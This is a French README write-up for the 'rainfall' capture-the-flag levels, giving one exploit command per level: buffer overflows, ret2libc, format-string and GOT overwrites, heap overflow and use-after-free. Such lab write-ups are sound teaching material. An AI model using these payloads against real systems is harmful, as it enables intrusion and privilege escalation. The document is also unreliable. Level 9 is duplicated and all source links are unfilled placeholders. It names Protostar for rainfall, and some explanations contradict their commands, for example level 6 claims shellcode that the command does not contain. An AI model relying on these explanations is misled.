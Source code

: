 # rainfall
## Level 1

**Exploit**: Buffer Overflow avec redirection de flux d'exécution  
**Commande**: `python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit2; cat /tmp/exploit - | ./level1`  
**Explication**: Dans cet exploit, nous avons dépassé la taille du tampon prévu en imprimant 76 caractères "a", suivis de l'adresse 0x08 04 84 44, qui est l'adresse de la fonction run. Cette adresse sera utilisée comme nouvelle adresse de retour, ce qui nous permettra de rediriger l'exécution vers la fonction run.

**Sources**:

- [Détails sur Buffer Overflow avec redirection](lien_vers_la_source)
- [Vidéo YouTube sur Buffer Overflow](lien_vers_la_source)

---

## Level 2

**Exploit**: Return-to-libc (ret2libc)  
**Commande**: `python -c 'print "a" * 80 + "\x3e\x85\x04\x08"  + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"' > /tmp/exploit3`  
**Explication**: Dans cet exploit, nous utilisons la technique ret2libc pour contourner les protections de sécurité. Nous utilisons les adresses des fonctions system, exit et /bin/sh de la bibliothèque libc pour exécuter une coquille système avec les privilèges de l'utilisateur.

**Sources**:

- [Guide pratique sur ret2libc](lien_vers_la_source)
- [Exploitation de Buffer Overflow avec ret2libc](lien_vers_la_source)

---

## Level 3

**Exploit**: Attaque de chaîne de format  
**Commande**: `python -c 'print "\x8c\x98\x04\x08" + "%60c" + "%4$n"' > /tmp/exploit4; cat /tmp/exploit4 - | ./level3`  
**Explication**: L'exploit ici repose sur une vulnérabilité de chaîne de format. Nous utilisons la spécification %4$n pour écrire le nombre de caractères déjà imprimés dans la pile à l'adresse mémoire pointée par le quatrième argument sur la pile (qui est l'adresse de retour). Cela nous permet de contrôler le flux d'exécution.

**Sources**:

- [Guide sur l'attaque de chaîne de format](lien_vers_la_source)
- [Exploitation de chaînes de format](lien_vers_la_source)

---

## Level 4

**Exploit**: Format String avec écriture arbitraire  
**Commande**: `python -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%12$n"' > /tmp/exploit4`  
**Explication**: Dans cet exploit, nous utilisons la vulnérabilité de chaîne de format pour écrire une valeur arbitraire dans la mémoire. Nous écrasons l'adresse de retour avec l'adresse de la fonction info pour afficher le contenu de la mémoire.

**Sources**:

- [Exploitation de chaînes de format](lien_vers_la_source)
- [Guide sur ret2libc](lien_vers_la_source)

...

## Level 5

**Exploit**: GOT Overwrite  
**Commande**: `python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"' > /tmp/exploit5`  
**Explication**: Dans cet exploit, nous écrasons une entrée dans la table GOT pour rediriger l'exécution vers notre propre code. Nous écrasons l'adresse de la fonction o dans la table GOT avec l'adresse de la fonction system.

**Sources**:

- [Explication sur GOT Overwrite](lien_vers_la_source)
- [Guide sur Buffer Overflow](lien_vers_la_source)

---

## Level 6

**Exploit**: Buffer Overflow avec shellcode  
**Commande**: `$(python -c 'print "a" * 72 + "\x54\x84\x04\x08"')`  
**Explication**: Ici, nous exploitons une vulnérabilité de débordement de tampon pour écraser l'adresse de retour avec l'adresse de la fonction m(). Ensuite, nous exécutons un shellcode pour obtenir un shell interactif.

**Sources**:

- [Détails sur Buffer Overflow avec shellcode](lien_vers_la_source)
- [Guide sur l'exploitation de niveaux de Protostar](lien_vers_la_source)

---

## Level 7

**Exploit**: Heap Overflow  
**Commande**: `"$(python -c "print 'AAAABBBBCCCCDDDDEEEE\x28\x99\x04\x08'")" $(python -c "print '\xf4\x84\x04\x08'")`  
**Explication**: Dans cet exploit, nous exploitons une vulnérabilité de débordement du tas. Nous écrasons les métadonnées du tas pour rediriger l'exécution vers la fonction m(). Cela nous permet d'exécuter du code arbitraire.

**Sources**:

- [Explication sur Heap Overflow](lien_vers_la_source)
- [Guide sur Heap Overflow](lien_vers_la_source)

---

## Level 8

**Exploit**: Use-After-Free  
**Commande**: `auth a; reset; service; service; service; login`  
**Explication**: Dans cet exploit, nous exploitons une vulnérabilité Use-After-Free. Nous libérons un objet, puis nous l'utilisons à nouveau pour exécuter un shell interactif. Cela se produit car l'objet libéré n'est pas correctement désalloué.

**Sources**:

- [Explication sur Use-After-Free](lien_vers_la_source)
- [Guide sur Use-After-Free](lien_vers_la_source)

---

## Level 9

**Exploit**: Buffer Overflow avec shellcode  
**Commande**: `$(python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWWXXXXYYYYZZZZAAA' + '\x60\x60\xd8\xb7' + '\xe0\x9b\xd7\xb7' + '\xf4\x84\x04\x08' + '\x58\x7c\xea\xb7' ")`  
**Explication**: Comme dans les exploits précédents, nous exploitons une vulnérabilité de débordement de tampon pour écraser l'adresse de retour et exécuter un shell interactif.

**Sources**:

- [Explication sur Buffer Overflow avec shellcode](lien_vers_la_source)
- [Guide sur l'exploitation de niveaux de Protostar](lien_vers_la_source)

---

## Level 9

**Exploit**: Buffer Overflow avec shellcode  
**Commande**: `$(python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWWXXXXYYYYZZZZAAA' + '\x60\x60\xd8\xb7' + '\xe0\x9b\xd7\xb7' + '\xf4\x84\x04\x08' + '\x58\x7c\xea\xb7' ")`  
**Explication**: Comme dans les exploits précédents, nous exploitons une vulnérabilité de débordement de tampon pour écraser l'adresse de retour et exécuter un shell interactif.

**Sources**:

- [Explication sur Buffer Overflow avec shellcode](lien_vers_la_source)
- [Guide sur l'exploitation de niveaux de Protostar](lien_vers_la_source)

---

## Comment utiliser ce dépôt

1. Clonez ce dépôt sur votre machine locale.
2. Naviguez dans le répertoire du niveau que vous souhaitez étudier.
3. Consultez le fichier `README.md` pour les détails de l'exploit et les commandes utilisées.
4. Exécutez les commandes sur votre système Protostar pour observer les résultats.

---

Ce write-up a été préparé avec soin par [VotreNom](lien_vers_votre_profil_GitHub).

**Disclaimer**: Ces exploits ont été conçus à des fins éducatives et d'apprentissage. Ne les utilisez pas à des fins malveillantes.
